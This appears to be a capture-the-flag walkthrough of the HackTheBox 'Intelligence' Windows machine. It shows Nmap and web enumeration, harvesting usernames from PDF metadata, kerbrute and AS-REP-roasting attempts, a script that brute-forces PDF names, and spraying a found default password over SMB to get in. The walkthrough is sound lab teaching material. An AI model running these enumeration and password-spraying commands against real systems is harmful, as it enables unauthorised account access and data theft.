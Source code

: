 ```yaml
---
description: https://app.hackthebox.com/machines/357
---
```


# Intelligence

<figure><img src="../../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

I start by doing a Nmap -p- without anything to know all the ports open, then throw in a big command to properly enumerate the open ports to win some time:

```
nmap -sCV -p 53,80,88,135,139,389,445,464,593,636,3269,3268,5985,9389,49667,49691,49692,49709,49713,54414 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

I then go on the http webpage on port 80 and use feroxbuster:

```
feroxbuster -u http://intelligence.htb -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

<figure><img src="../../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>

the /documents is forbidden ->

<figure><img src="../../../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

but the subdomains are not

<figure><img src="../../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>

Nothing to see in the first place but then I saw that this was a PDF and not a txt oriented file, let's see if there is exif data ->

```
exiftool 2020-01-01-upload.pdf 
```

<figure><img src="../../../.gitbook/assets/image (667).png" alt=""><figcaption></figcaption></figure>

there was another PDF in the subdomains ->

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Ok so we get 2 possible users? Let's continue enumeration:

```
kerbrute userenum --dc 10.129.44.184 -d intelligence.htb users
```

<figure><img src="../../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

No we need to check to see if either has the don’t require preauth flag set, which would leak the users hash (this is AS-REP-roasting):

```
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/Jose.Williams
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/William.Lee
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

That got me thinking that the PDFs are named based on the date they were created. So, we can conclud that we could potentially bruteforce the PDF names and download them that are not referenced in the website.

So we create a little script in python or bash to follow the nomenclature of the website:

```
#!/bin/bash
DATE=2020-01-01

for i in {0..366}
do
       NEXT_DATE=$(date +%Y-%m-%d -d "$DATE + $i day")
          echo "$NEXT_DATE""-upload"
      done
```

```
chmod +x dates4bruteforce.sh
./dates4bruteforce.sh > pdfname
```

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

and the one-liner to go and bruteforce and download all of this:

```
for i in $(cat ../pdfname); do wget http://10.129.44.184/documents/$i".pdf"; done
```

i made a folder to store all of the PDF's

<figure><img src="../../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

after manually looking we find a PDF with default password:

<figure><img src="../../../.gitbook/assets/image (674).png" alt=""><figcaption><p>NewIntelligenceCorpUser9876</p></figcaption></figure>

We can easily say to ourselves that there is Exif data on all of them with valid users, we need to script it out:

```
find . *.pdf|xargs exiftool |grep Creator|awk '{print $3}' >  userPDF.txt
```

<figure><img src="../../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

So now we can spray this password to see if anyone left it by default:

```
crackmapexec smb 10.129.44.184 -u userPDF.txt -p NewIntelligenceCorpUser9876 --continue-on-success
```

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption><p>Tiffany.Molina</p></figcaption></figure>

So this _**Tiffany.Molina**_ user left password by default

Now let's try to dig out on the SMB side of the user:

```
smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -H 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (677).png" alt=""><figcaption></figcaption></figure>

and then we connect in the Users share:

```
smbclient -U Tiffany.Molina //10.129.44.184/Users NewIntelligenceCorpUser9876
```

And pull the user flag out of the Desktop:

<figure><img src="../../../.gitbook/assets/image (678).png" alt=""><figcaption></figcaption></figure>

further enumeration led to going in the IT share ->

<figure><img src="../../../.gitbook/assets/image (679).png" alt=""><figcaption></figcaption></figure>

We find this powershell script:

<figure><img src="../../../.gitbook/assets/image (680).png" alt=""><figcaption></figcaption></figure>

> The script goes into LDAP and gets a list of all the computers, and then loops over the ones where the name starts with “web”. It will try to issue a web request to that server (with the running users’s credentials), and if the status code isn’t 200, it will email Ted.Graves and let them know that the host is down. The comment at the top says it is scheduled to run every five minutes.

<figure><img src="../../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>
